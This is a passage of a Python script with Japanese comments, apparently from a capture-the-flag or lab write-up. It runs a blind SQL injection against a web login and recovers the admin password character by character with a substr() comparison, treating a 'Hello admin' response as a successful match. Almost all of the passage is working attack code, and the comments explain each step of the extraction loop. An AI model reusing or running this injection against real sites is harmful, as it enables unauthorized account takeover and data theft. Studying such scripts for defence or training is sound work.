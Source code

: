 ```
    #print(attack_url)
#attack_urlとヘッダを送信してレスポンスを取得
    res = requests.get(attack_url, headers=headers)
    #print(res.text)
#レスポンスを返す
    return res

#sqlインジェクションに使用するクエリを作る関数。渡されるのは解析するパスワード文字列
def create_pass_query(pw):
#解析するパスワード文字列を使用してクエリを作る。作られたクエリはパスワードが空白、またはIDがadminかつ
#「データベースに格納されているpwの文字列から解析するパスワード文字列の文字数+1文字目の文字がパスワード解析用文字列の最後の文字と同じなら」となる
#↑だとわかりづらい「解析用文字列の最後の文字と格納されている文字列の同じ文字目を比較して同じかどうかを比較している」
    query = "'or id='admin' and substr(pw," + str(len(pw)) + ",1)='" + pw[-1]
#作成したクエリを返す
    return query

def check_result(res):
    if 'Hello admin' in res.text:
        return True
    return False

####################
###     main     ###
####################

#解析できたパスワードが入る変数
fix_pass = ""
is_end = False
#is_endフラグがtrueになるまで繰り返す
while not is_end:
#パスワード解析に利用する文字列の繰り返し。つまりブルートフォースする
    for c in candidates:
#解析できたパスワードに一文字付け足して解析するパスワードの文字列を作る
        try_pass = fix_pass + str(c)
#今回解析に使う文字列を表示
        print(try_pass)
#解析に使う文字列を渡してsqlインジェクションに使用するクエリを作る
        query = create_pass_query(try_pass)
#作ったクエリを使用してSQLインジェクションを実行する
        res = attack(query)
#結果の確認。成功していれば使用した文字を解析済みパスワードの文字列に加えて次の桁へ
        if check_result(res):
            fix_pass += c
            break

#もしも使用する文字列が#までいったならpwの末尾まで行っていると判断して終了フラグを立てて終わりにする
        if c == '#':
            is_end = True
            
#最後に解析したpwを表示する
print("result: " + fix_pass)
```
